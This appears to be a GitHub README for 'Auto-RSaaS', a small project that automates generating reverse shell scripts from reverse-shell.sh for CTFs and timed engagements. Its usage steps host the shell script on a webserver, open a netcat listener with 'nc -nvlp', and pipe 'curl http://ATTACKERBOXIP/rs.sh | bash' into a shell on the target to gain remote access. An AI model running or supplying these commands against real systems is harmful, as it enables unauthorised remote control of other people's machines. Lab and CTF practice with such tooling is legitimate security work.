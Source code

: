# Auto-RSaaS
Automated the usage of https://reverse-shell.sh/

=====================================================================================================================================================

Esentially this project automates the usage of the site https://reverse-shell.sh/. Typically during CTFs or even any timed engagements reverse shells are needed. There are two scripts located in the project the first being rs.sh which is just the reverse shell script grabbed from https://reverse-shell.sh/. Then we have gen.sh this is a script I wrote to grab the rs.sh file and edit its components.

Set Up
======================================================================================================================================================

1. Download the git project into your home folder /home/yourname/RSaaS/
2. Edit the contents of gen.sh to copy the rs.sh from your own home folder.
3. Setup a alias in bash to run rsaas something like rsaas= bash /home/harshil/rsaas/gen.sh

Usage
======================================================================================================================================================
1. run rsaas enter your port that you will listen on
2. setup a webserver where the rs.sh file is hosted (updog -p 80)
3. in another window run nc -nvlp 4444 (substitute 4444 which the port you are listening on)
4. use curl http://ATTACKERBOXIP/rs.sh | bash when attempting to use command execution
